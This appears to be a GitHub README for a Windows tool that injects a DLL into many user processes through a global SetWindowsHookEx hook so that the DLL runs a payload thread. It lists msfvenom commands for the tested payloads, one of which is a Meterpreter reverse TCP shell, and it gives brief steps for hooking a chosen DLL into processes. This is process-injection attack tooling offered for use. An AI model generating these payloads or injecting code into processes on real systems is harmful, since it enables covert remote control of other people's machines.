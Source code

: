 # Global-SetWindowsHookEx-Injector
Hooks a bunch of user processes with a dll that launches a thread that spawns a messagebox whenever it is loaded
## Payloads that have been tested with this project
`msfvenom -f c -p windows/x64/messagebox EXITFUNC=thread TEXT="Hello, from urmom"` </br>
`msfvenom -p windows/x64/meterpreter_reverse_tcp EXITFUNC=thread RHOST=127.0.0.1 RPORT=4444 -f c -o file.txt`
## Usage
1. Just add this to your dll:
extern "C" __declspec(dllexport) int NextHook(int code, WPARAM wParam, LPARAM lParam) {
	return CallNextHookEx(NULL, code, wParam, lParam);
}

2. Edit your dll name in hookloader/main.cpp:
HMODULE dll = LoadLibraryEx(L"test.dll", NULL, DONT_RESOLVE_DLL_REFERENCES); //<-- DLL name

3. Compile & done

![](https://github.com/Msfv3n0m/Global-SetWindowsHookEx-Injector/blob/master/loaded_dll.PNG)
## Credit
This project uses [this](https://www.bing.com/search?pglt=2081&q=mingw.threads.h+github&cvid=eda2595c8617405babee903277a23f89&aqs=edge.0.69i59l2j69i57j69i59j69i58j69i60j69i64.1251j0j1&FORM=ANNTA1&PC=U531) library to create a thread to launch the messagebox without interrupting the programs
